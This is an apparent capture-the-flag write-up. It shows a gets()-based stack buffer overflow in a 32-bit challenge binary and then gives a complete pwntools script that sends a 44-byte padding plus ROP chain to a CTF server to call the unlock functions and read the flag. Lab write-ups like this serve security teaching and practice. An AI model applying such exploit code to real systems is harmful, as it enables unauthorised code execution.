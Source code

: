 So we have four functions which we need to call with controlled arguments.  This is a 32-bit binary so all we need to control is the stack.  Fortunately, there is a trivial buffer overflow.  

```c
void vuln(void)

{
  char local_2c [36];
  
  puts(
      "Howdy! We have a function to read the flag but you aren\'t allowed to use it.  Can youconvince me otherwise?"
      );
  gets(local_2c);
  return;
}
```

gg pwntools rop chain builder really suits my desire to not do work lol.  

```python
#!/usr/bin/env python3

from pwn import *
import re

context.log_level = logging.ERROR

exe = ELF("./chall")

context.binary = exe
context.terminal = ["termite","-e"]


def conn():
    if args.LOCAL:
        return process([exe.path])
    else:
        return remote("ctf.cybr.club", 2002)


def main():
    r = conn()


    flag_txt = next(exe.search(b"flag.txt"))

    rop = ROP(exe)

    rop.find_file(flag_txt)
    rop.unlock_one()
    rop.unlock_two(0x12345678)
    rop.unlock_three(0x1e9c66e6, 0xadaf1212)
    rop.read_flag()

    payload = cyclic(44)
    payload += rop.chain()
    r.sendline(payload)

    print(re.search("(FLAG{.*})",r.recvall().decode()).group(1))


if __name__ == "__main__":
    main()
```
